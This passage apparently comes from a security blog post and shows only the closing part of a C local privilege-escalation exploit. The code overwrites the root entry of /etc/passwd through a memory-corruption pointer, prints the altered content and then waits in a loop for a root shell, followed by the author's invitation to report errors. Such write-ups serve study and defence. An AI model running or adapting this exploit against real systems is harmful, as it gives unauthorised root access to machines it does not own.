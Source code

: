 ```c

	// Overwriting /etc/passwd root entry.
	puts("[+] Overwriting /etc/passwd root entry. Content should have been modified:");
	memcpy(ptr, privesc, strlen(privesc));
	fputs(ptr, stdout);


	// Entering eternal loop.	
	puts("[+] Corruption process has been completed. Waiting for a root shell...");
	while(1) {
		sleep(10);
	}
	
	return 0;
}
```
{% admonition(type="note", title="note") %}
If you find a misconception or an error in any of my posts, please [contact me](mailto:gum3t@proton.me) and I'll fix it asap.
{% end %}
